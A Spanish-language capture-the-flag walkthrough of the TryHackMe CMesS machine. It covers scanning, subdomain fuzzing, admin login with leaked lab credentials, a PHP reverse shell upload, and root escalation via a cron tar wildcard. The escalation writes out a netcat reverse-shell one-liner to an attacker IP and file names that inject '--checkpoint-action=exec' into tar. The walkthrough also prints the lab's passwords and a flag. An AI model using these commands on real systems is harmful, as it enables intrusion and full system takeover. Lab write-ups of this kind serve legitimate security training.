










La máquina CMesS de TryHackMe simula un entorno empresarial que utiliza un sistema de gestión de contenido mal configurado, lo cual abre la puerta a múltiples vectores de ataque. Está clasificada como una máquina de dificultad media, ideal para practicar técnicas de explotación web y escalada de privilegios en entornos reales.
#nmap -sC -sV -T5 10.10.133.225
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-23 16:43 AST
Warning: 10.10.133.225 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.133.225
Host is up (0.29s latency).
Not shown: 976 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
| 256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_ 256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
30/tcp filtered unknown
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
406/tcp filtered imsp
425/tcp filtered icad-el
888/tcp filtered accessbuilder
1055/tcp filtered ansyslmd
1111/tcp filtered lmsocialserver
1138/tcp filtered encrypted_admin
1248/tcp filtered hermes
1300/tcp filtered h323hostcallsc
2288/tcp filtered netml
2522/tcp filtered windb
2809/tcp filtered corbaloc
3128/tcp filtered squid-http
6502/tcp filtered netop-rc
6689/tcp filtered tsa
7999/tcp filtered irdmi2
8800/tcp filtered sunwebadmin
9415/tcp filtered unknown
11110/tcp filtered sgi-soap
19842/tcp filtered unknown
48080/tcp filtered unknown
49160/tcp filtered unknown
Se realizó un escaneo con los scripts por defecto (-sC), detección de versiones (-sV) y velocidad máxima (-T5) al host 10.10.133.225. Aunque se alcanzó el límite de retransmisiones en algunos puertos, Nmap logró identificar servicios clave en ejecución.

Al ingresar la IP de la máquina en el navegador, se carga una página web que muestra contenido genérico del Gila CMS, incluyendo los enlaces "Home" y "About", junto con una entrada de blog titulada "Hello World". Este tipo de contenido es típico de una instalación por defecto, lo cual sugiere que la plataforma aún no ha sido personalizada o asegurada.
#gobuster dir -u http://10.10.133.225/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.133.225/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index (Status: 200) [Size: 3863]
/about (Status: 200) [Size: 3361]
/search (Status: 200) [Size: 3863]
/blog (Status: 200) [Size: 3863]
/1 (Status: 200) [Size: 4094]
/01 (Status: 200) [Size: 4094]
/login (Status: 200) [Size: 1584]
/category (Status: 200) [Size: 3874]
/0 (Status: 200) [Size: 3863]
/themes (Status: 301) [Size: 326] [--> http://10.10.133.225/themes/?url=themes]
/feed (Status: 200) [Size: 735]
/admin (Status: 200) [Size: 1584]
/assets (Status: 301) [Size: 326] [--> http://10.10.133.225/assets/?url=assets]
/tag (Status: 200) [Size: 3886]
/author (Status: 200) [Size: 3602]
/Search (Status: 200) [Size: 3863]
/sites (Status: 301) [Size: 324] [--> http://10.10.133.225/sites/?url=sites]
/About (Status: 200) [Size: 3347]
/log (Status: 301) [Size: 320] [--> http://10.10.133.225/log/?url=log]
/Index (Status: 200) [Size: 3863]
/tags (Status: 200) [Size: 3147]
/1x1 (Status: 200) [Size: 4094]
/lib (Status: 301) [Size: 320] [--> http://10.10.133.225/lib/?url=lib]
/src (Status: 301) [Size: 320] [--> http://10.10.133.225/src/?url=src]
/api (Status: 200) [Size: 0]
Se utilizó Gobuster para enumerar directorios ocultos en el servidor web, El escaneo reveló múltiples rutas interesantes, muchas de las cuales no estaban visibles desde la interfaz principal del sitio:

Al acceder a la ruta /admin, el servidor presenta una interfaz de login que solicita correo electrónico y contraseña, lo cual confirma que esta es la página de acceso al panel de administración del Gila CMS.

Se añadió una entrada al archivo /etc/hosts para asociar el dominio cmess.thm con la dirección IP 10.10.133.225. Esto permite resolver localmente el nombre del host, facilitando el acceso al sitio web de la máquina mediante el navegador sin necesidad de usar la IP directamente. Es una práctica común en entornos de laboratorio para simular entornos reales con dominios personalizados.
#wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'cmess.thm' -H "HOST: FUZZ.cmess.thm"
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://cmess.thm/
Total requests: 4989
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000019: 200 30 L 104 W 934 Ch "dev - dev"
000000009: 200 107 L 290 W 3886 Ch "cpanel - cpanel"
000000002: 200 107 L 290 W 3880 Ch "mail - mail"
000000020: 200 107 L 290 W 3880 Ch "www2 - www2"
000000018: 200 107 L 290 W 3880 Ch "blog - blog"
000000003: 200 107 L 290 W 3877 Ch "ftp - ftp"
000000017: 200 107 L 290 W 3871 Ch "m - m"
000000016: 200 107 L 290 W 3880 Ch "test - test"
000000005: 200 107 L 290 W 3889 Ch "webmail - webmail"
000000001: 200 107 L 290 W 3877 Ch "www - www"
000000014: 200 107 L 290 W 3898 Ch "autoconfig - autoconfig"
000000015: 200 107 L 290 W 3874 Ch "ns - ns"
000000013: 200 107 L 290 W 3904 Ch "autodiscover - autodiscover"
000000012: 200 107 L 290 W 3877 Ch "ns2 - ns2"
000000011: 200 107 L 290 W 3877 Ch "ns1 - ns1"
000000007: 200 107 L 290 W 3889 Ch "webdisk - webdisk"
000000004: 200 107 L 290 W 3895 Ch "localhost - localhost"
000000010: 200 107 L 290 W 3877 Ch "whm - whm"
000000006: 200 107 L 290 W 3880 Ch "smtp - smtp"
000000008: 200 107 L 290 W 3877 Ch "pop - pop"
000000021: 200 107 L 290 W 3877 Ch "ns3 - ns3"
000000023: 200 107 L 290 W 3883 Ch "forum - forum"
000000024: 200 107 L 290 W 3883 Ch "admin - admin"
000000027: 200 107 L 290 W 3874 Ch "mx - mx"
000000055: 200 107 L 290 W 3886 Ch "backup - backup"
000000025: 200 107 L 290 W 3883 Ch "mail2 - mail2"
000000074: 200 107 L 290 W 3877 Ch "ads - ads"
000000039: 200 107 L 290 W 3880 Ch "dns2 - dns2"
000000031: 200 107 L 290 W 3886 Ch "mobile - mobile"
000000022: 200 107 L 290 W 3880 Ch "pop3 - pop3"
000000073: 200 107 L 290 W 3877 Ch "mx2 - mx2"
000000072: 200 107 L 290 W 3877 Ch "crm - crm"
000000071: 200 107 L 290 W 3886 Ch "search - search"
000000070: 200 107 L 290 W 3880 Ch "chat - chat"
000000066: 200 107 L 290 W 3880 Ch "www3 - www3"
000000065: 200 107 L 290 W 3877 Ch "mx1 - mx1"
000000064: 200 107 L 290 W 3883 Ch "mail1 - mail1"
000000069: 200 107 L 290 W 3877 Ch "sip - sip"
000000068: 200 107 L 290 W 3883 Ch "www.m - www.m"
000000067: 200 107 L 290 W 3889 Ch "staging - staging"
000000060: 200 107 L 290 W 3892 Ch "www.test - www.test"
000000063: 200 107 L 290 W 3883 Ch "video - video"
000000062: 200 107 L 290 W 3880 Ch "host - host"
000000061: 200 107 L 290 W 3883 Ch "stats - stats"
000000052: 200 107 L 290 W 3883 Ch "media - media"
000000051: 200 107 L 290 W 3877 Ch "api - api"
000000050: 200 107 L 290 W 3880 Ch "wiki - wiki"
000000049: 200 107 L 290 W 3886 Ch "server - server"
000000048: 200 107 L 290 W 3886 Ch "portal - portal"
000000047: 200 107 L 290 W 3880 Ch "news - news"
000000046: 200 107 L 290 W 3877 Ch "img - img"
000000045: 200 107 L 290 W 3880 Ch "www1 - www1"
000000056: 200 107 L 290 W 3877 Ch "dns - dns"
000000059: 200 107 L 290 W 3895 Ch "www.forum - www.forum"
000000054: 200 107 L 290 W 3892 Ch "www.blog - www.blog"
000000058: 200 107 L 290 W 3892 Ch "intranet - intranet"
000000053: 200 107 L 290 W 3886 Ch "images - images"
000000057: 200 107 L 290 W 3877 Ch "sql - sql"
000000044: 200 107 L 290 W 3877 Ch "web - web"
Durante el escaneo con Wfuzz, uno de los resultados más interesantes fue el subdominio dev-dev. Este tipo de nomenclatura suele emplearse en entornos reales para referirse a instancias duplicadas de desarrollo o pruebas internas. La repetición del nombre puede ser indicativa de una copia temporal, un entorno desatendido o una implementación paralela al entorno principal.
¿Por qué es relevante?

Agregar dev-dev.cmess.thm a tu archivo /etc/hosts y acceder al subdominio vía navegador para observar qué aplicación está corriendo.

en la página dev-dev.cmess.thm revela información crítica, como una vulnerabilidad relacionada con un archivo .htaccess mal configurado, un retraso en el parche de seguridad, y el restablecimiento de la contraseña de un usuario administrativo (andre@cmess.thm). La contraseña proporcionada, KPFTN_f2yxe%, podría ser clave para acceder al panel de administración y avanzar en el reto. Esto sugiere una posible explotación de credenciales y falta de medidas de seguridad adecuadas que podrías aprovechar para obtener acceso privilegiado al sistema.

Tras utilizar las credenciales obtenidas en el subdominio de desarrollo, se logró acceder al panel de administración de GilaCMS como el usuario andre. El entorno muestra acceso completo a funcionalidades críticas como la gestión de publicaciones, usuarios, páginas y paquetes. Esta interfaz también revela que hay actualizaciones pendientes, lo cual podría indicar una versión vulnerable del CMS, abriendo la posibilidad a explotación de vulnerabilidades conocidas. El control del panel permite explorar vectores como la subida de archivos maliciosos, inyección de código o la manipulación del sistema desde el backend.

Desde el panel de administración de GilaCMS, se accedió al File Manager, una funcionalidad crítica que permite cargar archivos al servidor. Aprovechando esta capacidad, se subió una reverse shell en PHP, lo que permitió inyectar código malicioso directamente en el sistema de archivos del servidor.



#nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.29.254] from (UNKNOWN) [10.10.133.225] 40412
=== ENTORNO DETECTADO ===
User: www-data
UID: 33
GID: 33
OS: Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64
Shell:
bash: cannot set terminal process group (718): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cmess:/var/www/html/assets$
www-data@cmess:/var/www/html/assets$ cd /opt
cd /opt
www-data@cmess:/opt$ ls -la
ls -la
total 12
drwxr-xr-x 2 root root 4096 Feb 6 2020 .
drwxr-xr-x 22 root root 4096 Feb 6 2020 ..
-rwxrwxrwx 1 root root 36 Feb 6 2020 .password.bak
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
www-data@cmess:/opt$
Una vez dentro del sistema como usuario web, se exploraron directorios clave del sistema y se localizó un archivo oculto en la ruta /opt. Este archivo, llamado .password.bak, estaba indebidamente expuesto con permisos inseguros que permitían su lectura por cualquier usuario.
El contenido del archivo reveló una credencial de respaldo perteneciente al usuario "andres", junto con una contraseña en texto claro: UQfsdCB7aAP6.
#ssh andre@cmess.thm
The authenticity of host 'cmess.thm (10.10.133.225)' can't be established.
ED25519 key fingerprint is SHA256:hepiJY+DGs/ds1l4tweTdzOAbt+HxqpmNs3WyZFb4eQ.
This host key is known by the following other names/addresses:
~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cmess.thm' (ED25519) to the list of known hosts.
andre@cmess.thm's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20
andre@cmess:~$ ls
backup user.txt
andre@cmess:~$ cat user.txt
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
andre@cmess:~$
Con las credenciales recuperadas previamente, se intentó acceder al sistema mediante el usuario andre. La autenticación fue exitosa, lo que permitió una nueva sesión con mayores privilegios y visibilidad dentro del entorno.
Una vez dentro, se encontraron varios archivos en el directorio personal del usuario, entre ellos uno titulado user.txt. Al revisar su contenido, se obtuvo la primera flag del reto.
andre@cmess:~$ cd backup
andre@cmess:~/backup$ ls
note
andre@cmess:~/backup$ cat note
Note to self.
Anything in here will be backed up!
andre@cmess:~/backup$
Durante la exploración del entorno del usuario andre, se identificó un directorio denominado de forma sugestiva, asociado al respaldo de archivos. Dentro de este, un mensaje indicaba que todo lo que se colocara allí sería incluido en una copia de seguridad automatizada.
Esta información es crucial, ya que revela la existencia de un proceso activo que monitoriza el contenido del directorio. Si dicho proceso es ejecutado con privilegios elevados y carece de validaciones apropiadas, podría convertirse en un canal para la escalada de privilegios, permitiendo la ejecución de código malicioso en el contexto de un usuario con mayor autoridad.
andre@cmess:~/backup$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
andre@cmess:~/backup$
En esta sección, se observa que el usuario "root" ha configurado una tarea programada (cron job) para realizar una copia de seguridad de los archivos en el directorio /home/andre/backup. Cada 2 minutos, el cron ejecuta el comando tar para comprimir y guardar los archivos del directorio en un archivo .tar.gz dentro de /tmp. Este comportamiento puede ser relevante para la explotación en un escenario de escalada de privilegios o la obtención de información sensible si se tiene acceso al directorio de respaldo o si se compromete la ejecución de este cron job.
andre@cmess:~/backup$ echo "mkfifo /tmp/lhennp; nc 10.2.29.254 8888 0/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh shell.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$
#nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.2.29.254] from (UNKNOWN) [10.10.133.225] 39466
whoami
root
cd /root
ls
root.txt
Con la reverse shell establecida y la conexión activa, se accede al directorio de administración y se localiza el archivo root.txt. Este archivo marca la finalización exitosa del reto, indicando que se ha logrado cumplir con los objetivos establecidos, como la escalada de privilegios y la obtención de acceso completo al sistema.